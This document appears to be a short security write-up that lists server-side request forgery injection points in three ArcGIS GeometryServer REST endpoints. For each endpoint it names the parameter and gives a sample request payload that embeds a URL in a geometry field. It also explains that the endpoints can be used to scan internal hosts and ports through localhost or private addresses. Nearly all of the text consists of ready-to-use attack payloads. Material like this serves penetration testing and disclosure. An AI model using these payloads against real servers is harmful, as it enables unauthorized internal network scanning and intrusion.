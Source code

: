 Note: The paths may slightl vary from target to target so adjust them as needed. Each endpoint can be leveraged for internal network scan/internal port scan by using `http://127.0.0.1:25` or `http://localhost:25` or `http://<private_ip>`.

## 1.
Endpoint: `/Utilities/Geometry/GeometryServer/areasAndLengths`

Parameter: `polygons`

Sample payload: `sr=102009&polygons={"url":"http://example.com"}&lengthUnit=9035&areaUnit=%7B%22areaUnit%22:%22esriAcres%22%7D&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/areas-and-lengths/

## 2. 
Endpoint: `/Utilities/Geometry/GeometryServer/buffer`

Parameter: `geometries`

Sample payload: `?geometries={"url":"http://example.com"}&inSR=4326&outSR=4326&bufferSR=3857&distances=1000&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/buffer/

## 3. 
Endpoint: `/Utilities/Geometry/GeometryServer/lengths`

Parameter: `polylines`

Sample payload: `sr=4269&polylines={"url":"http://example.com"}&lengthUnit=9036&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/lengths/
